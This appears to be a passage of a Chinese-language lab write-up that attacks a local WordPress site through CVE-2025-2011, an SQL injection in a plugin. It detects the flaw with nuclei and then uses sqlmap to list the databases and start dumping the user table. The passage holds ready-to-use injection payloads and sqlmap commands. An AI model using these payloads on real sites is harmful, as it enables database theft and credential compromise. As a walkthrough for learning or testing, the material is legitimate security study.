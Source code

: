 使用nuclei进行漏洞扫描：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nuclei -u http://wordpress.local:8000/
...
[CVE-2025-2011:dbname] [http] [high] http://wordpress.local:8000/wp-admin/admin-ajax.php?s=9999')union+select+111,222,(select(concat(0x44617461626173653a20,database()))),4444,+5--+-&perpage=20&page=1&orderBy=source_id&dateEnd&dateStart&order=DESC&sources&action=depicter-lead-index ["wordpress"]
...
```

发现CVE-2025-2011漏洞，这是一个WordPress插件的SQL注入漏洞。

## SQL注入利用

### 检测注入点

使用sqlmap验证并利用SQL注入漏洞：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sqlmap -u "http://wordpress.local:8000/wp-admin/admin-ajax.php?s=test&action=depicter-lead-index" -p s --dbs --batch
...
Parameter: s (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: s=test') AND (SELECT 1426 FROM (SELECT(SLEEP(5)))CoXd) AND ('Jhem'='Jhem&action=depicter-lead-index

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: s=test') UNION ALL SELECT CONCAT(0x71786b7071,0x72534350746463506a707173537277566e717679657645616d6c774751594a486675525970544a54,0x717a6a7171),NULL,NULL,NULL,NULL-- -&action=depicter-lead-index
...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] wordpress
[*] zabbix
```

### 获取WordPress用户信息

提取WordPress用户表数据：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sqlmap -u "http://wordpress.local:8000/wp-admin/admin-ajax.php?s=test&action=depicter-lead-index" -p s -D wordpress -T wp_users --dump       
...
Database: wordpress
Table: wp_users
[1 entry]
+----+----------+-----------------------------------------------------------------+-----------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url | user_pass                                                       | user_email      | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+----------+-----------------------------------------------------------------+-----------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```